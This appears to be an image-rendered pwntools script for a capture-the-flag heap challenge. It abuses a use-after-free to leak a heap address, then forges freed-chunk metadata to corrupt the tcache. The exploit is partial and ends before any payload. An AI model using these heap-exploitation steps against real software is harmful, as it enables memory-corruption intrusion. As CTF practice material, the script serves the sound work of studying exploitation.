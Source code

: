 ```python
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('',)



def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass
ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()
def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
    sla("Your choice:",str(num))

def add(size):
    cho(1)
    sla("Index:",str(0))
    sla("Size:", str(size))

def edit(con):
    cho(2)
    sla("Index:",str(0))
    sla("Content: ", con)

def show():
    cho(3)
    sla("Index:",str(0))

def delete():
    cho(4)
    sla("Index:",str(0))

add(0x8)
delete()
#delete()
edit('a'*8)
show()
ru("aaaaaaaa")
heap = leak_address()
print(hex(heap))


add(0x10)
delete()
edit(p64(heap+0x260)+p64(0x91))

```
